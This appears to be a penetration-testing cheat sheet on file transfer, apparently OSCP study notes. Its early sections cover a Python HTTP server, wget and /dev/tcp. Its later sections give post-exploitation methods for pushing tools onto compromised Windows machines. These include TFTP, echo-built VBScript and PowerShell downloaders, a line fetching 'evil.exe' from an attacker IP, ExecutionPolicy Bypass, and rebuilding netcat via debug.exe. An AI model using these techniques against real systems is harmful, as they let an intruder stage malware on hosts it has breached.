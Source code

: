 # SimpleHTTPServer 

``
python -m SimpleHTTPServer 8000
``

Or customizing:

```python
#!/bin/python
import SimpleHTTPServer
import SocketServer

PORT = 8000

Handler = SimpleHTTPServer.SimpleHTTPRequestHandler

httpd = SocketServer.TCPServer(("", PORT), Handler)

print "serving at port", PORT
httpd.serve_forever()
```
---
# Download with wget

### Continue an Incomplete Download
``
wget -c file
``

### Mirror an Entire Website
``
wget -m http://example.com
``

options:

* ``--convert-links`` changes links inside each downloaded page so that they point to each other, not the web.

* ``--page-requisites`` downloads things like style sheets, so pages will look correct offline.
* ``--no-parent`` stops wget from downloading parent sites. So if you want to download http://example.com/subexample, you won’t end up with the parent page.

### Download an Entire Directory
``
wget -r ftp://example.com/folder
``

### Download a List of Files at Once
``
wget -i download.txt
``

Few other options:

* ``-b`` :run then download in the background.
* ``-t 10`` :keep trying to download even if there is a 404 error. will try to download 10 times;
* ``--limit-rate=200k`` :Limit the download bandwidth speed at 200KB/s.

---
# /dev/tcp examples 

### Downloading a URL via /dev/tcp:
``
$ exec 5<>/dev/tcp/www.net.cn/80
$ echo -e "GET / HTTP/1.0\n" >&5
$ cat <&5
``

---------------------

# Start Kali FTP Daemon
### 1 Install atftpd

Install atftpd package. Disable inetd and run systemd service. /srv/tftp is used for TFTP server directory.

```bash
$ sudo apt install -y atftpd
$ sudo sed -e 's/^USE_INETD=true/USE_INETD=false/g' -i /etc/default/atftpd
$ sudo systemctl enable atftpd
$ sudo systemctl restart atftpd
```

---------------------
# Transferring Files to Windows(4)

### TFTP (Windows XP & Windows 2003)
A TFTP client is installed by default on windows machines up to Windows XP and Windows 2003. What is good about TFTP is that you can use it non-interactively. Which means less risk of losing your shell.

```
tftp -i 192.160.1.101 GET wget.exe
```

From linux to test the server:

```
from Linux
```

To make a VBScript clone of wget:

`
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
`

You then execute the script like this:

`
cscript wget.vbs http://192.168.10.5/evil.exe evil.exe
`

### PowerShell

This is how we can download a file using PowerShell. Remember since we only have a non-interactive shell we cannot start PowerShell.exe, because our shell can't handle that. But we can get around that by creaing a PowerShell-script and then executing the script:

`
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://192.168.1.101/file.exe" >>wget.ps1
echo $file = "output-file.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
`

Now we invoke it with this crazy syntax:

`
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
`

### Debug.exe

This is a crazy technique that works on windows 32 bit machines. Basically the idea is to use the debug.exe program. It is used to inspect binaries, like a debugger. But it can also rebuild them from hex. So the idea is that we take a binaries, like netcat. And then disassemble it into hex, paste it into a file on the compromised machine, and then assemble it with debug.exe.

Debug.exe can only assemble 64 kb. So we need to use files smaller than that. We can use upx to compress it even more. So let's do that:

```
upx -9 nc.exe
```
Now it only weights 29 kb. Perfect. So now let's disassemble it:

```
/usr/share/windows-binaries/exe2bat.exe
wine exe2bat.exe nc.exe nc.txt
```

From txt to exe(5):

```console
root@kali:~/Desktop# cat nc.txt
echo n 1.dll >123.hex
echo e 0100 >>123.hex
echo 4d 5a 90 00 03 00 00 00 04 00 00 00 ff ff 00 00 b8 00 00 00 00 00 00 00 40 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 80 00 00 00 0e 1f ba 0e 00 b4 09 cd 21 b8 01 4c cd 21 54 68 69 73 20 70 72 6f 67 72 61 6d 20 63 61 6e 6e 6f 74 20 62 65 20 72 75 6e 20 69 6e 20 44 4f 53 20 6d 6f 64 65 2e 0d 0d 0a 24 00 00 00 00 00 00 00  >>123.hex 
echo e 0180 >>123.hex
.
.
.
   	echo q >>123.hex
debug<123.hex
copy 1.dll nc_from_binary.exe
```

---
#### References:
1. https://www.howtogeek.com/281663/how-to-use-wget-the-ultimate-command-line-downloading-tool/
2. http://fibrevillage.com/scripting/603-dev-tcp-examples-and-trouble-shooting
3. https://docs.python.org/2/library/simplehttpserver.html
4. https://sushant747.gitbooks.io/total-oscp-guide/transfering_files_to_windows.html
5. https://awansec.com/file-transfer.html
